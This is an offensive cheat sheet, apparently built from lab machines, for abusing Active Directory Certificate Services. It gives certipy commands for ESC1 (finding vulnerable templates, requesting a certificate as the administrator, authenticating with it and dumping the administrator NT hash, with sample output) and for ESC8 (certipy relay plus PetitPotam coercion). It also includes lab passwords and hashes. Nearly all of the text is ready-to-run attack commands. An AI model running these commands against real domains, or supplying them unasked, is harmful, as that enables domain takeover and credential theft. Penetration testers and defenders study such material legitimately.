### ESC1

**Find vulnerable certificate templates :**
```sh
certipy find -u 'banking$'@retro.vl -p 'TestPass!2' -dc-ip 10.10.65.99
```

**Impersonate an admin :**
```sh
certipy req -username 'banking$'@retro.vl -password 'TestPass!2' -target-ip 'dc.retro.vl' -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator@retro.vl'  -debug -key-size 4096


certipy req -username 'FRAJMP$'@heron.vl -hashes 6f55b3b443ef192c804b2ae98e8254f7 -target-ip '10.10.251.229' -ca 'heron-CA' -template 'HybridComputers' -upn 'Administrator@heron.vl'  -debug -key-size 4096 -dns heron.vl
```

Then you can transform the generated **certificate to** `**.pfx**` format and use it to **authenticate using   certipy** again:
```sh
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.65.99
```

- Result : 
```sh
[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

### ESC8 :

```sh
certipy relay -ca "bruno-BRUNODC-CA" -target brunodc.bruno.vl -template KerberosAuthentication
```

```sh
petitpotam.py -d 'bruno' -u 'svc_scan' -p 'Sunshine1' 10.8.3.12 $t
```